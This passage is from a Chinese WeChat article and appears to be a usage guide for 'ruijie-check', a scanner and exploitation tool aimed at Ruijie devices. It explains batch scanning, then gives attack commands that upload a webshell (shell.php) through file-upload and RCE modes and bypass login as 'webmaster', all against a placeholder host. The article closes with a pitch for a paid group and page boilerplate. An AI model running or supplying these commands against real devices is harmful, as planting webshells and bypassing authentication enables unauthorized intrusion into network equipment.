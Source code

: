   * 批量检测

指定-f批量扫描, 结果会自动保存到output.txt  

  * 漏洞利用

![]()

##

  * 文件上传

需要同目录下放需要上传的webshell文件 比如shell.php

  * 

    
    
    ruijie-check attack -u http://127.0.0.1 -m fileupload -f shell.php

或者

  * 

    
    
    ruijie-check attack -u http://127.0.0.1 -m rce -f shell.php

  * 登录绕过

  * 

    
    
    ruijie-check attack -u http://127.0.0.1 -m webmaster

![]()

 **0x04  加入我们**

后台回复“加群”或“小助手”，或扫描下方二维码加入我们的付费圈子，一起进步吧

  

![]()

![]()

#

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

